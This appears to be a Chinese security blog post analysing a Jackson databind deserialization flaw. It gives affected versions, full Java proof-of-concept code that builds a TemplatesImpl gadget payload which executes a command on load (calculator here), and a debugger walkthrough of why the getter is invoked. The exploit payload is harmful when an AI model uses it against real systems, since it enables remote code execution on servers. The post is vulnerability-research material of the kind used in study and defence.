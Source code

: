 # Jackson反序列化（二）

  
  
&lt;!--more--&gt;  
## 0x01 影响版本  
Jackson 2.6 &lt; 2.6.7.1  
Jackson 2.7 &lt; 2.7.9.1  
Jackson 2.8 &lt; 2.8.8.1  
## 0x02 限制  
由于是打的 TemplaesImpl 链，所以要求 JDK 版本是 7u21 或者 8u20，动态代理相关的链子。  
## 0x03 漏洞复现  
Test.java  
```java  
public class Test{  
	public Object object;  
}  
```  
SimpleCalc.java  
```java  
import com.sun.org.apache.xalan.internal.xsltc.DOM;    
import com.sun.org.apache.xalan.internal.xsltc.TransletException;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;    
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;    
    
public class SimpleCalc extends AbstractTranslet {    
    
    public SimpleCalc() throws Exception {    
        Runtime.getRuntime().exec(&#34;open -a Calculator&#34;);    
    }    
    
    @Override    
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {    
    
    }    
    
    @Override    
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {    
    
    }    
}  
```  
Poc.java  
```java  
import com.fasterxml.jackson.databind.ObjectMapper;    
    
import javax.xml.bind.DatatypeConverter;    
import java.io.File;    
import java.io.FileInputStream;    
    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        String exp = readClassStr(&#34;/Users/f10wers13eicheng/Desktop/Java/JacksonDemo1/src/main/java/SimpleCalc.class&#34;);    
        String jsonInput = aposToQuotes(&#34;{\&#34;object\&#34;:[&#39;com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39;,\n&#34; &#43;    
                &#34;{\n&#34; &#43;    
                &#34;&#39;transletBytecodes&#39;:[&#39;&#34;&#43;exp&#43;&#34;&#39;],\n&#34; &#43;    
                &#34;&#39;transletName&#39;:&#39;huahua&#39;,\n&#34; &#43;    
                &#34;&#39;outputProperties&#39;:{}\n&#34; &#43;    
                &#34;}\n&#34; &#43;    
                &#34;]\n&#34; &#43;    
                &#34;}&#34;);    
        System.out.println(jsonInput);    
        ObjectMapper mapper = new ObjectMapper();    
        mapper.enableDefaultTyping();    
        Test test;    
        try{    
            test = mapper.readValue(jsonInput, Test.class);    
        }catch(Exception e){    
            e.printStackTrace();    
        }    
    }    
    
    
    public static String aposToQuotes(String json){    
        return json.replace(&#34;&#39;&#34;, &#34;\&#34;&#34;);    
    }    
    public static String readClassStr(String cls) throws Exception{    
        File file = new File(cls);    
        FileInputStream fileInputStream = new FileInputStream(file);    
        byte[] bytes = new byte[(int) file.length()];    
        fileInputStream.read(bytes);    
        String base64Encoded = DatatypeConverter.printBase64Binary(bytes);    
        return base64Encoded;    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411122340342.png)
Jackson 是调用任意的构造函数与任意的`setter`方法，为什么会触发这条链子呢？  
7u21这条链子本质上其实是`TemplateImpl`类的类动态加载，配合上动态代理来打的，可是这里不论是动态代理，还是`TeamplaesImpl.getOutputProperties()`，都和 Jackson 没关系。  
## 0x04 漏洞分析  
首先是第一次到`com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize`方法，反序列化Test类，会走到其构造函数里面，并且继续处理`object`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132219288.png)
继续往下走，下一步是反序列化 object 里面的数据  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132223084.png)
这里看一下`_beanProperties`里的值  
```  
Properties=[uriresolver([simple type, class javax.xml.transform.URIResolver]), transletBytecodes([array type, component type: [array type, component type: [simple type, class byte]]]), outputProperties([map type; class java.util.Properties, [simple type, class java.lang.String] -&gt; [simple type, class java.lang.String]]), transletName([simple type, class java.lang.String]), stylesheetDOM([simple type, class com.sun.org.apache.xalan.internal.xsltc.DOM])]  
```  
除了`setter`函数中的属性之外，还有`outputProperties`，为什么`outputProperties`会被拿到呢？因为`outputProperties`属性有相应的`getter`方法，而其他属性却没有  
接着来看看对于`outputProperties`是怎么处理的  
`outputProperties`属性在`deserializeAndSet()`函数中是通过反射机制调用它的`getter`方法，这就是该利用链能被成功触发的原因  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132226184.png)
这里也指出了一条攻击利用手法，也就是构造函数中存在的属性，不存在`setter`方法时，都会自动调用到`getter`方法。  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%BA%8C/  

